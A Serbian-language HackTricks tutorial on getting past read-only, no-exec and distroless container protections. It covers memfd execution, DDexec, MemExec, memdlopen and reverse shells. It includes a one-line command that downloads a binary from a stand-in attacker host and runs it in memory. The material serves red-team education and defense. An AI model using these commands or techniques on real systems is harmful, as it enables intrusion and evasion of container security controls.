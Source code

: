 # Zaobilaženje zaštite fajl sistema: samo čitanje / bez izvršavanja / Distroless

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Video snimci

U sledećim video snimcima možete pronaći tehnike koje su pomenute na ovoj stranici objašnjene detaljnije:

* [**DEF CON 31 - Istraživanje manipulacije memorijom Linux-a za prikrivanje i izbegavanje**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Prikriveni upadi sa DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scenario samo čitanje / bez izvršavanja

Sve je češće da se na Linux mašinama koristi **zaštita fajl sistema samo za čitanje (ro)**, posebno u kontejnerima. To je zato što je pokretanje kontejnera sa fajl sistemom samo za čitanje jednostavno kao postavljanje **`readOnlyRootFilesystem: true`** u `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Međutim, čak i ako je fajl sistem montiran kao samo za čitanje, **`/dev/shm`** će i dalje biti upisiv, tako da nije tačno da ne možemo ništa pisati na disk. Međutim, ovaj folder će biti **montiran sa zaštitom bez izvršavanja**, pa ako ovde preuzmete binarni fajl, **nećete moći da ga izvršite**.

{% hint style="warning" %}
Sa perspektive crvenog tima, ovo otežava **preuzimanje i izvršavanje** binarnih fajlova koji nisu već prisutni u sistemu (kao što su zadnja vrata ili enumeratori kao što je `kubectl`).
{% endhint %}

## Najlakše zaobilaženje: Skripte

Primetite da sam pominjao binarne fajlove, možete **izvršiti bilo koju skriptu** sve dok je interpreter prisutan na mašini, kao što je **shell skripta** ako je `sh` prisutan ili **python** **skripta** ako je instaliran `python`.

Međutim, ovo nije dovoljno da biste izvršili svoj binarni zadnji ulaz ili druge binarne alate koje možda trebate pokrenuti.

## Zaobilaženje memorije

Ako želite da izvršite binarni fajl, ali fajl sistem to ne dozvoljava, najbolji način da to uradite je **izvršavanje iz memorije**, jer se **zaštite ne primenjuju tamo**.

### Zaobilaženje FD + exec syscall

Ako imate neke moćne skriptne mašine na mašini, kao što su **Python**, **Perl** ili **Ruby**, možete preuzeti binarni fajl za izvršavanje iz memorije, sačuvati ga u deskriptoru fajla u memoriji (`create_memfd` syscall), koji neće biti zaštićen tim zaštitama, a zatim pozvati **`exec` syscall** navodeći **fd kao fajl za izvršavanje**.

Za ovo možete lako koristiti projekat [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Možete mu proslediti binarni fajl i on će generisati skriptu na naznačenom jeziku sa **binarnim fajlom kompresovanim i b64 enkodiranim** sa instrukcijama za **dekodiranje i dekompresiju** u **fd** koji je kreiran pozivanjem `create_memfd` syscall-a i pozivom **exec** syscall-a za pokretanje.

{% hint style="warning" %}
Ovo ne funkcioniše u drugim skriptnim jezicima poput PHP-a ili Node-a jer nemaju **podrazumevani način za pozivanje sirovih syscalls** iz skripte, pa nije moguće pozvati `create_memfd` da se kreira **memorijski fd** za čuvanje binarnog fajla.

Osim toga, kreiranje **redovnog fd-a** sa fajlom u `/dev/shm` neće raditi, jer nećete moći da ga pokrenete zbog primene **zaštite bez izvršavanja**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) je tehnika koja vam omogućava da **modifikujete memoriju vašeg sopstvenog procesa** tako što ćete prebrisati njegov **`/proc/self/mem`**.

Stoga, **kontrolišući asemblerski kod** koji se izvršava od strane procesa, možete napisati **shellcode** i "mutirati" proces da **izvrši bilo koji proizvoljni kod**.

{% hint style="success" %}
**DDexec / EverythingExec** će vam omogućiti da učitate i **izvršite** svoj sopstveni **shellcode** ili **bilo koji binarni fajl** iz **memorije**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Za više informacija o ovoj tehnici pogledajte Github ili:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) je prirodni sledeći korak od DDexec-a. To je **DDexec shellcode demonizovan**, tako da svaki put kada želite **pokrenuti drugi binarni fajl** ne morate ponovo pokretati DDexec, već možete samo pokrenuti memexec shellcode putem DDexec tehnike i zatim **komunicirati sa ovim demonom da biste preneli nove binarne fajlove za učitavanje i pokretanje**.

Možete pronaći primer kako koristiti **memexec za izvršavanje binarnih fajlova iz PHP reverse shell-a** na [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Sa sličnim ciljem kao i DDexec, tehnika [**memdlopen**](https://github.com/arget13/memdlopen) omogućava **jednostavniji način učitavanja binarnih fajlova** u memoriju radi kasnijeg izvršavanja. Može čak omogućiti učitavanje binarnih fajlova sa zavisnostima.

## Bypassovanje Distroless

### Šta je distroless

Distroless kontejneri sadrže samo **apsolutno neophodne komponente za pokretanje određene aplikacije ili servisa**, kao što su biblioteke i zavisnosti za izvršavanje, ali isključuju veće komponente poput upravljača paketa, shell-a ili sistemskih alata.

Cilj distroless kontejnera je **smanjenje površine napada kontejnera eliminisanjem nepotrebnih komponenti** i smanjenje broja ranjivosti koje mogu biti iskorišćene.

### Reverse Shell

U distroless kontejneru možda **nećete čak ni pronaći `sh` ili `bash`** da biste dobili običan shell. Takođe nećete pronaći binarne fajlove poput `ls`, `whoami`, `id`... sve što obično pokrećete na sistemu.

{% hint style="warning" %}
Stoga, nećete moći dobiti **reverse shell** ili **izlistati** sistem kao što obično radite.
{% endhint %}

Međutim, ako je kompromitovani kontejner pokrenut na primer kao flask web, tada je instaliran Python, i stoga možete dobiti **Python reverse shell**. Ako se pokreće node, možete dobiti Node reverse shell, i isto važi za većinu **skriptnih jezika**.

{% hint style="success" %}
Koristeći skriptni jezik, možete **izlistati sistem** koristeći mogućnosti jezika.
{% endhint %}

Ako ne postoje **zaštite `read-only/no-exec`**, možete zloupotrebiti svoj reverse shell da **pišete u fajl sistem vaše binarne fajlove** i **izvršavate** ih.

{% hint style="success" %}
Međutim, u ovakvim kontejnerima ove zaštite obično postoje, ali možete koristiti **prethodne tehnike izvršavanja iz memorije da ih zaobiđete**.
{% endhint %}

Možete pronaći **primere** kako iskoristiti neke RCE ranjivosti da biste dobili **reverse shell-ove skriptnih jezika** i izvršili binarne fajlove iz memorije na [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
